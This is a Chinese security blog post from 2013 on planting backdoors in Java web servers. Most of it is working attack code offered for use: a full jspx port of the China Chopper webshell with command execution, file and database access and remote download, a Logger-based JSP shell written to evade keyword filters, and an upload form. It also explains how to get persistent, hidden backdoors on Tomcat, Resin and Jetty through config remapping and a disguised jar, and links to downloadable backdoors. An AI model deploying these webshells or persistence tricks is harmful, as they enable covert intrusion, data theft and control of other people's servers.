









# 攻击 JavaWeb 应用[8]-后门篇

2013/10/11 19:19 | [园长](http://drops.wooyun.org/author/园长 "由 园长 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

关于 JavaWeb 后门问题一直以来都比较少，而比较新奇的后门更少。在这里我分享几种比较有意思的 JavaWeb 后门给大家玩。

## 0x01 jspx 后门

* * *

在如今的 web 应用当中如果想直接传个 jsp 已经变得比较难了，但是如果只限制了 asp、php、jsp、aspx 等这些常见的后缀应该怎样去突破呢？我在读 tomcat 的配置文件的时候看到 jsp 和 jspx 都是由 org.apache.jasper.servlet.JspServlet 处理，于是想构建一个 jspx 的 webshell。经过反复的折腾，一个 jspx 的后门就粗线了。测试应该是 java 的所有的 server 都默认支持。

### Tomcat 默认的 conf/web.xml 下的配置：

```
 <servlet>
        <servlet-name>jsp</servlet-name>
        <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
        <init-param>
            <param-name>fork</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>xpoweredBy</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>3</load-on-startup>
    </servlet>

    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping> 
```

关于 jspx 的资料网上并不多，官网给的文档也不清楚，搞的模模糊糊的。怎么去玩 jspx 大家可以看下官网的 demo，或者参考一些文章。

[`jspx-bay.sourceforge.net`](http://jspx-bay.sourceforge.net)

关于 jspx 文件的一些说明：

[`blog.sina.com.cn/s/blog_4b6de6bb0100089s.html`](http://blog.sina.com.cn/s/blog_4b6de6bb0100089s.html)

重点在于把 Jsp 里面的一些标记转换成 xml 支持的格式，比如：

```
<%@ include .. %>                      <jsp:directive.include .. />

<%@ page .. %>                         <jsp:directive.page .. />
<%@ taglib .. %>                       
<%= ..%>                               <jsp:expression> .. </jsp:expression>
<% ..%>                                <jsp:scriptlet> .. </jsp:scriptlet> 
```

知道<% %>可以用`<jsp:scriptlet></jsp:scriptlet>`标记表示那么做起来就很简单了，直接把标记换下是非常容易做的。所以写个简单的 shell 一个就很简单了，但是如果想知道具体有那些标签或者说跟 jsp 里面的有那些不同怎么办呢？下面我简单的做了下对比（前面是 jsp 的代码提示，后面是 jspx）：



照着提示翻译下得知表示 jsp 里面的<%! %>需要用：`<jsp:declaration></jsp:declaration>`标签去替换就行了。

### 其他重要提醒：

在 jspx 里面遵循 xml 语法所以直接在 jsp:declaration 或者 jsp:scriptlet 标签内写"<>"这样的符号是不行的，需要转意（不转意会报编译错误，猜了下只需要把<>转成`&lt; &gt;`就行了）。

### jspx 后门的具体实现代码：

```
 <jsp:root 

     version="1.2">
    <jsp:directive.page contentType="text/html" pageEncoding="UTF-8" />
    <jsp:directive.page import="java.io.*" />
    <jsp:scriptlet>
        RandomAccessFile rf = new RandomAccessFile(request.getRealPath("/")+request.getParameter("f"), "rw");
        rf.write(request.getParameter("t").getBytes());
        rf.close();
    </jsp:scriptlet>
</jsp:root> 
```

### jspx 实现的我之前发的菜刀最终版：

[`localhost:8080/jspx.jspx`](http://localhost:8080/jspx.jspx)  直接用菜刀连接：



```
<jsp:root    version="1.2"><jsp:directive.page contentType="text/html" pageEncoding="UTF-8" /><jsp:directive.page import="java.io.*"/><jsp:directive.page import="java.util.*"/><jsp:directive.page import="java.net.*"/><jsp:directive.page import="java.sql.*"/><jsp:directive.page import="java.text.*"/><jsp:declaration>String Pwd="023";String cs="UTF-8";String EC(String s)throws Exception{return new String(s.getBytes("ISO-8859-1"),cs);}Connection GC(String s)throws Exception{String[] x=s.trim().split("\r\n");Class.forName(x[0].trim());if(x[1].indexOf("jdbc:oracle")!=-1){return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);}else{Connection c=DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);if(x.length>4){c.setCatalog(x[4]);}return c;}}void AA(StringBuffer sb)throws Exception{File r[]=File.listRoots();for(int i=0;i&lt;r.length;i++){sb.append(r[i].toString().substring(0,2));}}void BB(String s,StringBuffer sb)throws Exception{File oF=new File(s),l[]=oF.listFiles();String sT,sQ,sF="";java.util.Date dt;SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");for(int i=0; i&lt;l.length; i++){dt=new java.util.Date(l[i].lastModified());sT=fm.format(dt);sQ=l[i].canRead()?"R":"";sQ +=l[i].canWrite()?" W":"";if(l[i].isDirectory()){sb.append(l[i].getName()+"/\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n");}else{sF+=l[i].getName()+"\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n";}}sb.append(sF);}void EE(String s)throws Exception{File f=new File(s);if(f.isDirectory()){File x[]=f.listFiles();for(int k=0; k &lt; x.length; k++){if(!x[k].delete()){EE(x[k].getPath());}}}f.delete();}void FF(String s,HttpServletResponse r)throws Exception{int n;byte[] b=new byte[512];r.reset();ServletOutputStream os=r.getOutputStream();BufferedInputStream is=new BufferedInputStream(new FileInputStream(s));os.write(("->"+"|").getBytes(),0,3);while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}os.write(("|"+"&lt;-").getBytes(),0,3);os.close();is.close();}void GG(String s,String d)throws Exception{String h="0123456789ABCDEF";File f=new File(s);f.createNewFile();FileOutputStream os=new FileOutputStream(f);for(int i=0; i&lt;d.length();i+=2){os.write((h.indexOf(d.charAt(i)) &lt;&lt; 4 | h.indexOf(d.charAt(i+1))));}os.close();}void HH(String s,String d)throws Exception{File sf=new File(s),df=new File(d);if(sf.isDirectory()){if(!df.exists()){df.mkdir();}File z[]=sf.listFiles();for(int j=0; j&lt;z.length; j++){HH(s+"/"+z[j].getName(),d+"/"+z[j].getName());}}else{FileInputStream is=new FileInputStream(sf);FileOutputStream os=new FileOutputStream(df);int n;byte[] b=new byte[512];while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}is.close();os.close();}}void II(String s,String d)throws Exception{File sf=new File(s),df=new File(d);sf.renameTo(df);}void JJ(String s)throws Exception{File f=new File(s);f.mkdir();}void KK(String s,String t)throws Exception{File f=new File(s);SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");java.util.Date dt=fm.parse(t);f.setLastModified(dt.getTime());}void LL(String s,String d)throws Exception{URL u=new URL(s);int n=0;FileOutputStream os=new FileOutputStream(d);HttpURLConnection h=(HttpURLConnection) u.openConnection();InputStream is=h.getInputStream();byte[] b=new byte[512];while((n=is.read(b))!=-1){os.write(b,0,n);}os.close();is.close();h.disconnect();}void MM(InputStream is,StringBuffer sb)throws Exception{String l;BufferedReader br=new BufferedReader(new InputStreamReader(is));while((l=br.readLine())!=null){sb.append(l+"\r\n");}}void NN(String s,StringBuffer sb)throws Exception{Connection c=GC(s);ResultSet r=s.indexOf("jdbc:oracle")!=-1?c.getMetaData().getSchemas():c.getMetaData().getCatalogs();while(r.next()){sb.append(r.getString(1)+"\t");}r.close();c.close();}void OO(String s,StringBuffer sb)throws Exception{Connection c=GC(s);String[] x=s.trim().split("\r\n");ResultSet r=c.getMetaData().getTables(null,s.indexOf("jdbc:oracle")!=-1?x.length>5?x[5]:x[4]:null,"%",new String[]{"TABLE"});while(r.next()){sb.append(r.getString("TABLE_NAME")+"\t");}r.close();c.close();}void PP(String s,StringBuffer sb)throws Exception{String[] x=s.trim().split("\r\n");Connection c=GC(s);Statement m=c.createStatement(1005,1007);ResultSet r=m.executeQuery("select * from "+x[x.length-1]);ResultSetMetaData d=r.getMetaData();for(int i=1;i&lt;=d.getColumnCount();i++){sb.append(d.getColumnName(i)+" ("+d.getColumnTypeName(i)+")\t");}r.close();m.close();c.close();}void QQ(String cs,String s,String q,StringBuffer sb,String p)throws Exception{Connection c=GC(s);Statement m=c.createStatement(1005,1008);BufferedWriter bw=null;try{ResultSet r=m.executeQuery(q.indexOf("--f:")!=-1?q.substring(0,q.indexOf("--f:")):q);ResultSetMetaData d=r.getMetaData();int n=d.getColumnCount();for(int i=1; i &lt;=n; i++){sb.append(d.getColumnName(i)+"\t|\t");}sb.append("\r\n");if(q.indexOf("--f:")!=-1){File file=new File(p);if(q.indexOf("-to:")==-1){file.mkdir();}bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(q.indexOf("-to:")!=-1?p.trim():p+q.substring(q.indexOf("--f:")+4,q.length()).trim()),true),cs));}while(r.next()){for(int i=1; i&lt;=n;i++){if(q.indexOf("--f:")!=-1){bw.write(r.getObject(i)+""+"\t");bw.flush();}else{sb.append(r.getObject(i)+""+"\t|\t");}}if(bw!=null){bw.newLine();}sb.append("\r\n");}r.close();if(bw!=null){bw.close();}}catch(Exception e){sb.append("Result\t|\t\r\n");try{m.executeUpdate(q);sb.append("Execute Successfully!\t|\t\r\n");}catch(Exception ee){sb.append(ee.toString()+"\t|\t\r\n");}}m.close();c.close();}</jsp:declaration><jsp:scriptlet>cs=request.getParameter("z0")!=null?request.getParameter("z0")+"":cs;response.setContentType("text/html");response.setCharacterEncoding(cs);StringBuffer sb=new StringBuffer("");try{String Z=EC(request.getParameter(Pwd)+"");String z1=EC(request.getParameter("z1")+"");String z2=EC(request.getParameter("z2")+"");sb.append("->"+"|");String s=request.getSession().getServletContext().getRealPath("/");if(Z.equals("A")){sb.append(s+"\t");if(!s.substring(0,1).equals("/")){AA(sb);}}else if(Z.equals("B")){BB(z1,sb);}else if(Z.equals("C")){String l="";BufferedReader br=new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));while((l=br.readLine())!=null){sb.append(l+"\r\n");}br.close();}else if(Z.equals("D")){BufferedWriter bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));bw.write(z2);bw.close();sb.append("1");}else if(Z.equals("E")){EE(z1);sb.append("1");}else if(Z.equals("F")){FF(z1,response);}else if(Z.equals("G")){GG(z1,z2);sb.append("1");}else if(Z.equals("H")){HH(z1,z2);sb.append("1");}else if(Z.equals("I")){II(z1,z2);sb.append("1");}else if(Z.equals("J")){JJ(z1);sb.append("1");}else if(Z.equals("K")){KK(z1,z2);sb.append("1");}else if(Z.equals("L")){LL(z1,z2);sb.append("1");}else if(Z.equals("M")){String[] c={z1.substring(2),z1.substring(0,2),z2};Process p=Runtime.getRuntime().exec(c);MM(p.getInputStream(),sb);MM(p.getErrorStream(),sb);}else if(Z.equals("N")){NN(z1,sb);}else if(Z.equals("O")){OO(z1,sb);}else if(Z.equals("P")){PP(z1,sb);}else if(Z.equals("Q")){QQ(cs,z1,z2,sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\","/")+"images/");}}catch(Exception e){sb.append("ERROR"+":// "+e.toString());}sb.append("|"+"&lt;-");out.print(sb.toString());</jsp:scriptlet></jsp:root> 
```

## 0x02 Java Logger 日志后门

* * *

某些场景下 shell 可能被过滤掉了，但是利用一些有趣的东东可以绕过，比如不用 new File 这样的方式去写文件，甚至是尽可能的不要出现 File 关键字。

看了下 java.util.logging.Logger 挺有意思的，可以写日志文件，于是试了下用这样的方式去写一个 shell，结果成功了。

java.util.logging.Logger 默认输出的格式是 xml，但这都不是事，直接格式化下日志以 text 方式输出就行了。

新建 2.jsp 并访问：

```
<%java.util.logging.Logger l=java.util.logging.Logger.getLogger("t");java.util.logging.FileHandler h=new java.util.logging.FileHandler(pageContext.getServletContext().getRealPath("/")+request.getParameter("f"),true);h.setFormatter(new java.util.logging.SimpleFormatter());l.addHandler(h);l.info(request.getParameter("t"));%> 
```



### 其他略特殊点的文件读写 Demo：

```
new FileOutputStream 
          new FileOutputStream("d:/sb.txt").write(new String("123").getBytes()); 
          new DataOutputStream 
          new DataOutputStream(new FileOutputStream("d:/1x.txt")).write(new String("123").getBytes()); 
FileWriter fw = new FileWriter("d:/3.txt"); 
            fw.write("21"); 
            fw.flush(); 
            fw.close(); 
RandomAccessFile rf = new RandomAccessFile("d:/14.txt", "rw"); 
            rf.write(new String("3b").getBytes()); 
            rf.close(); 
```

### GetShell.htm:

```
<html> 
<head> 
<meta http-equiv="content-type" content="text/html;charset=utf-8"> 
<title>jsp-yzmm</title> 
</head> 
<style> 
.main{width:980px;height:600px;margin:0 auto;} 
.url{width:300px;} 
.fn{width:80px;} 
.content{width:80%;height:60%;} 
</style> 
<script> 
  function upload(){ 
    var url = document.getElementById('url').value, 
      content = document.getElementById('content').value, 
      fileName = document.getElementById('fn').value, 
      form = document.getElementById('fm'); 
    if(url.length == 0){ 
      alert("Url not allowd empty!"); 
      return ; 
    } 
    if(content.length == 0){ 
      alert("Content not allowd empty!"); 
      return ; 
    } 
    if(fileName.length == 0){ 
      alert("FileName not allowd empty!"); 
      return ; 
    } 
    form.action = url; 
    form.submit(); 
  } 
</script> 
<body> 
<div class="main"> 
  <form id="fm" method="post">   
    URL:<input type="text" value="http://localhost/Struts2/css3.jsp" class="url" id="url" />&nbsp;&nbsp; 
    FileName:<input type="text" name="f" value="css.jsp" class="fn" id="fn" />&nbsp;&nbsp; 
    <a href="javascript:upload();">Upload</a><br/> 
    <textarea id="content" class="content" name="t" ></textarea> 
  </form> 
</div> 
</body> 
</html> 
```

[`xsser.me/caidao/getshell-by-logger.jsp`](http://xsser.me/caidao/getshell-by-logger.jsp)

[`xsser.me/caidao/getshell-by-logger.txt`](http://xsser.me/caidao/getshell-by-logger.txt)

## 0x03 jspf 后门

* * *

在 Resin 的配置文件 conf/app-default.xml 看到了几个可以用 jsp 方式去解析的后缀，其中就包含了 jspf 和上面的 jspx：  

其中的 resin-jsp 和 resin-jspx 差不多，都是 com.caucho.jsp.JspServlet 处理，知识后者在 init 标签中标明了是以 xml 方式解析：`<xml>true</xml>`。

百度了下此 jspf 非框架（Java Simple Plugin Framework），JSP 最新的规范已经纳入了 jspf 为 JSP 内容的文件。但是经过测试主流的 JavaServer 仅有 resin 和 jetty 支持，tomcat 等 server 并不支持。不过在实际的生产环境上 resin 用的非常广泛。至于 jetty 略少，不过貌似 bae 是用的 jetty。

直接把 css.jsp 文件改名为 1.jspf 请求即可看到成功调用菜刀接口：  

## 0x04 邪恶后门第一式-恶意的任意后缀解析

* * *

从 Tomcat 和 Resin 的配置当中可以看出来，其实脚本可以是任意后缀，只要在配置解析的地方修改下映射的后缀就行了。那么只要修改下配置文件中后缀映射为 jsp 对于的解析的 servlet 名字就可以轻松的留下一个“不同寻常”的后缀的后门了。我测试 Tomcat6/8 和 Resin3 发现：一个运行当中的 server 当修改他们的映射的文件后不需要重启即可自动生效。也就是说可能一个网站存在跨目录的文件编辑漏洞，只要找到对于的配置文件地址修改后就能访问 1.jpg 去执行恶意的 jsp 脚本，这听起来有点让人不寒而栗。Getshell 后只要把这配置文件一改丢个 jpg 就能做后门了。

### Tomcat 修改 conf/web.xml：

 

### Resin 修改 conf/app-default.xml：

 

## 0x05 邪恶第二式-“变态的 server 永久后门”

* * *

如果说修改某些不起眼的配置文件达到隐藏后门足够有意思的话，那么直接把后门“藏到 Server 里面”可能更隐蔽。

在之前攻击 Java 系列教程中就已经比较详细的解释过 Java 的 Server 以及 servlet 和 filter 了。其实 server 启动跟启动一个 app 应用是非常相似的，我们需要做的仅仅是把 servlet 或者 filter 从应用层移动到 server 层，而且可以做到全局性。这种隐藏方法是极度残暴的，但是缺点是需要重启 Server。假设在一台 Server 上部署了 N 个应用，访问任意一个应用都能获取 Webshell。http://ip/xxx 就是后门了。没明白？上 demo。

### Tomcat5 配置方式：

在`apache-tomcat-5.5.27\conf\web.xml`的 session-config 后面加上一个 filter 或者 servlet 即可全局过滤：

```
 <servlet>
        <servlet-name>HttpServletWrapper</servlet-name>
        <servlet-class>javax.servlet.web.http.HttpServletWrapper</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>HttpServletWrapper</servlet-name>
        <url-pattern>/servlet/HttpServletWrapper</url-pattern>
    </servlet-mapping> 
```

url-pattern 表示默认需要过滤的请求后缀。

需要把 jar 复制到 tomcat 的 lib 目录，项目启动的时候会自动加载 jar 的 filter 或者 filter。  

Resin 配置需要修改`E:\soft\resin-pro-3.1.13\conf\app-default.xml`，在 resin-xtp 的 servler 后面加上对应的 filter 或者 servlet 并把`E:\soft\resin-pro-3.1.13\lib`放入后门的 jar 包：  

Jetty 配置，修改`D:\Soft\Server\jetty-distribution-9.0.5.v20130815\etc\webdefault.xml`文件，在 default 的 servlet 之前配置上面的 filter 和 servler 配置。

Jar 包：`E:\soft\jetty-distribution-9.0.4.v20130625\lib`

其他的 Server 就不列举了差不多。servlet 和 filter 配置也都大同小异知道其中的一种就知道另一种怎么配置了。

servlet-api-3.04.jar 是我伪装的一个后门， jar 下载地址：[`pan.baidu.com/s/17mKbH`](http://pan.baidu.com/s/17mKbH)

对应的后门 HttpServletWrapper.java 下载地址：[`pan.baidu.com/s/1l8eiM`](http://pan.baidu.com/s/1l8eiM)

## 0x06 其他后门

* * *

### 1、javabean

[`blogimg.chinaunix.net/blog/upfile2/090713181535.rar`](http://blogimg.chinaunix.net/blog/upfile2/090713181535.rar)

用法：把 beans.jsp 传到网站根目录，把 beans.class 传到"\webapp\WEB-INF\classes\linx"目录。

再访问

[`xxxxxx.com/webapp/beans.jsp?c=ls`](http://xxxxxx.com/webapp/beans.jsp?c=ls)

### 2、servlet

[`blogimg.chinaunix.net/blog/upfile2/090713181617.rar`](http://blogimg.chinaunix.net/blog/upfile2/090713181617.rar)

用法：把文件传到"\webapp\WEB-INF\classes"目录，访问

[`xxxxxx.com/webapp/servlet/servlets?c=ls`](http://xxxxxx.com/webapp/servlet/servlets?c=ls)

如果无法打开，请参考

[`blog.csdn.net/larmy888/archive/2006/03/02/613920.aspx`](http://blog.csdn.net/larmy888/archive/2006/03/02/613920.aspx)

### 3、编译执行型后门

上传一个 java 文件编译并执行，通过 socket 方式可做后门。一般来说 Server 的 loader 在启动后不会再去加载新增的 jar 或者 class 文件，如果想自动加载新的 class 文件可能需要根据不同的 Server 去改配置。Tomcat 下配置的时候经常有人会 reloadable="true"这样就有机会动态去加载 class 文件。可以根据 Server 去留一些有意思的后门。

[`xsser.me/caidao/getshell-by-logger.txt`](http:// http://xsser.me/caidao/getshell-by-logger.txt)

版权声明：未经授权禁止转载 [园长](http://drops.wooyun.org/author/园长 "由 园长 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [无声杯 xss 挑战赛 writeup](http://drops.wooyun.org/tips/2671)
*   [JBoss 安全问题总结](http://drops.wooyun.org/papers/178)
*   [PHP 漏洞挖掘思路+实例 第二章](http://drops.wooyun.org/tips/858)
*   [xss 挑战赛 writeup](http://drops.wooyun.org/tips/3059)
*   [URL Hacking – 前端猥琐流](http://drops.wooyun.org/tips/750)
*   [Hacking weblogic](http://drops.wooyun.org/tips/402)